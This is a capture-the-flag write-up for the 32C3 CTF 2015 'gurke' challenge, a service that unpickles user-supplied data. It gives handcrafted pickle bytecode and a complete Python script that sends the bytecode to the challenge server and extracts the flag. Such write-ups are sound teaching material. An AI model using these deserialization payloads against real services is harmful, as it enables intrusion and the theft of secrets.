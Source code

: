 # 32C3 CTF 2015 : gurke

**Category:** Misc
**Points:** 300
**Solves:** 111
**Description:**

> Non-standard [gurke](./gurke): <https://32c3ctf.ccc.ac/uploads/gurke> Talk to it via HTTP on <http://136.243.194.43/>.


## Write-up

by [m1ghtym0](https://github.com/m1ghtym0)

"It's not a standard gurke" is quite accurate.
First it creates a flag object, which contains the flag in the "flag" attribute.
Then it establishes a syscall-filter which is quite restrictive.
Finally it does what we were looking for: A pickle.load with user supplied data:

    data = os.read(0, 4096)
    try:
      res = pickle.loads(data)
      print 'res: %r\n' % res
    except Exception as e:
      print >>sys.stderr, "exception", repr(e)


However the syscall-filter prevents us from suppling a pickled object with a malicious
__reduce__ function, instead we have to get hold of the "flag" object's flag attribute.

Therefore we have to write a little pickle bytecode:

    cinspect\ngetmembers\n(c__main__\nflag\ntR.\n

Which is based on the opcode overview found here:
http://svn.python.org/projects/python/trunk/Lib/pickle.py

The pickle interpreter works stack-based and the code above does the following (pseudocode):

    push inspect.getmembers
    push __main__.flag
    pop func
    pop arg
    push (func, arg)
    call func(arg)
    ret

Which basically calls inspect.getmembers(flag).
The output will include the flag attribute and it's value.

The complete exploit:

    import urllib, urllib2
    import re
    url = 'http://136.243.194.43/'
    # pickle bytecode
    # c:module:function pushes object on the stack
    # (: push mark object
    # t:  pop two top most stack elements + create tuple of them + push tuple
    # R: call callable top most stack element
    # .: rerturn
    req = urllib2.Request(url, data="cinspect\ngetmembers\n(c__main__\nflag\ntR.\n", headers={'Content-type': 'application/python-pickle'})
    response = urllib2.urlopen(req)
    the_page = response.read()
    flag = re.findall("32c3_.{25}", the_page)[0]
    print "flag: " + flag


## Other write-ups and resources

* <https://github.com/p4-team/ctf/tree/master/2015-12-27-32c3/gurke_misc_300#eng-version>
* <http://blukat29.github.io/2015/12/32c3ctf-gurke/>
* <https://github.com/krx/CTF-Writeups/tree/master/32C3%202015/misc300%20-%20gurke>
* <http://nopat.ch/2015/12/29/32c3ctf-misc-gurke/>
* <http://katc.hateblo.jp/entry/2015/12/30/154329>
* <https://irq5.io/2015/12/30/32c3-ctf-write-up-gurke/>
* <http://nandynarwhals.org/2015/12/31/32c3ctf-gurke-misc-300/>
* <http://v0ids3curity.blogspot.in/2015/12/32c3-ctf-misc-300-gurke.html?m=0>
* [Japanese](http://blog.objc.jp/?p=2294)
* <http://pastebin.com/JikU89uJ>
* <http://pastebin.com/VUkfxYyP>
